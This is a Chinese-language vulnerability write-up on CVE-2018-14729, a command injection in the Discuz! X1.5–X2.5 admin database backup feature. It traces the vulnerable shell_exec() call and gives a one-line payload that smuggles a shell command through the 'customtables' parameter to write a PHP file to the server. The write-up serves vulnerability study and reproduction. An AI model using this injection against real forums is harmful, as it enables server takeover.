


# （CVE-2018-14729）Discuz! X1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

> 原文：[http://book.iwonder.run/0day/Discuz/CVE-2018-14729.html](http://book.iwonder.run/0day/Discuz/CVE-2018-14729.html)

## 一、漏洞简介

## 二、漏洞影响

Discuz! 1.5-2.5

## 三、复现过程

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用 Discuz! 2.5 完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

```
source/admincp/admincp_db.php 
```

第 296 行：

```
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile); 
```

在 shell_exec()函数中可控点在$tablesstr，向上看到第 281 行：

```
$tablesstr = '';
foreach($tables as $table) {
    $tablesstr .= '"'.$table.'" ';
} 
```

跟一下$table 的获取流程，在上面的第 143 行：

```
if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
{
    $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
} 
elseif($_GET['type'] == 'custom') 
{
    $tables = array();
    if(empty($_GET['setup'])) 
    {
        $tables = C::t('common_setting')->fetch('custombackup', true);
    } 
    else 
    {
        C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
        $tables = & $_GET['customtables'];
    }
    if( !is_array($tables) || empty($tables)) 
    {
        cpmsg('database_export_custom_invalid', '', 'error');
    }
} 
```

可以看到：

```
C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
$tables = & $_GET['customtables']; 
```

首先会从$_GET 的数组中获取 customtables 字段的内容，判断内容是否为空，不为空则将从外部获取到的 customtables 字段内容写入 common_setting 表的 skey=custombackup 的 svalue 字段，写入过程中会将这个字段做序列化存储：


之后再将该值赋给$tables。

至此可以看到漏洞产生的原因是由于 shell_exec()中的$tablesstr 可控，导致代码注入。

### 漏洞复现

首先抓个包



这样可以抓到符合我们条件的请求包。



接下来只需要将 customtables 的内容更改一下就可以造成命令执行了：

```
customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php # 
```


效果为：


## 参考链接

> [https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md](https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md)
> 
> [https://www.anquanke.com/post/id/158270](https://www.anquanke.com/post/id/158270)

